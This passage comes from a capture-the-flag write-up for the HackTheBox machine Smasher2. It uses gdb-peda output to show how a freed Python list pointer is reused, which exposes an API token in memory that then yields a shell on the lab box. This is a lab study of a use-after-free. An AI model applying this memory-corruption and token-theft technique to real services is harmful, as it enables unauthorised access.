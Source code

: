 {% highlight shell %}
   0x55bbf6e7ecfa <list_dealloc+298>:	nop    WORD PTR [rax+rax*1+0x0]
   0x55bbf6e7ed00 <list_dealloc+304>:	
    movsxd r9,DWORD PTR [rip+0x2c0919]        # 0x55bbf713f620 <numfree.lto_priv.44>
   0x55bbf6e7ed07 <list_dealloc+311>:	mov    r10,QWORD PTR [rbp+0x8]
=> 0x55bbf6e7ed0b <list_dealloc+315>:	cmp    r9d,0x4f
   0x55bbf6e7ed0f <list_dealloc+319>:	jg     0x55bbf6e7ed40 <list_dealloc+368>
   0x55bbf6e7ed11 <list_dealloc+321>:	cmp    r10,QWORD PTR [rip+0x248090]        # 0x55bbf70c6da8
   0x55bbf6e7ed18 <list_dealloc+328>:	jne    0x55bbf6e7ed40 <list_dealloc+368>
   0x55bbf6e7ed1a <list_dealloc+330>:	lea    r11d,[r9+0x1]
gdb-peda$ p numfree
$48 = 0x3
{% endhighlight %}
Since `numfree` was less than `PyList_MAXFREELIST`, Python added the pointer `op` to the `freelist`: `free_list[numfree++] = op;`.

*As to the specifics as to why the list that's passed to `SessionManager_init` needs to be re-allocated (and thus re-uses the pointer that we just freed), I'm not 100% sure. If someone is more familiar with Python internals, I would love to know. But, it can clearly be seen if one set watchpoints on that memory in `gdb`:*
{% highlight shell %}
gdb-peda$ awatch *0x7facbab56bd8  # This is the address of `op` from above, when we were in the list_dealloc function
gdb-peda$ awatch *0x7facbab56bd8-0x20
gdb-peda$ c
{% endhighlight %}
_Step through until the end of `PyList_New` completes allocation, plus assignment._
{% highlight shell %}
gdb-peda$ print *(PyListObject*)0x7facbab56bd8
$13 = {
  ob_refcnt = 0x1, 
  ob_type = 0x55d10570a280 <PyList_Type>, 
  ob_size = 0x3, 
  ob_item = 0x7facb4022b20, 
 allocated = 0x3
}

gdb-peda$ print *(PyStringObject*)(*(PyListObject*)0x7facbab56bd8)->ob_item[1]
$16 = {
  ob_refcnt = 0x2, 
  ob_type = 0x55d105709f40 <PyString_Type>, 
  ob_size = 0x40, 
  ob_shash = 0xffffffffffffffff, 
  ob_sstate = 0x0, 
  ob_sval = "1"
}
gdb-peda$ x/32s (*(PyStringObject*)(*(PyListObject*)0x7facbab56bd8)->ob_item[1])->ob_sval
0x7facbab91bb4:	"1e18cb7c2be07907d12f52e505404081bd902e3af0fd6fd4437275bb71d7fe15"
{% endhighlight %}

With the API token, it was trivial to run a bash job and get an initial shell, and `user.txt`.

The final part of Smasher2 was a fun kernel module exploit, but this post is long enough, so check out [Snowscan's](https://snowscan.io/htb-writeup-smasher2/) write up for the rest!
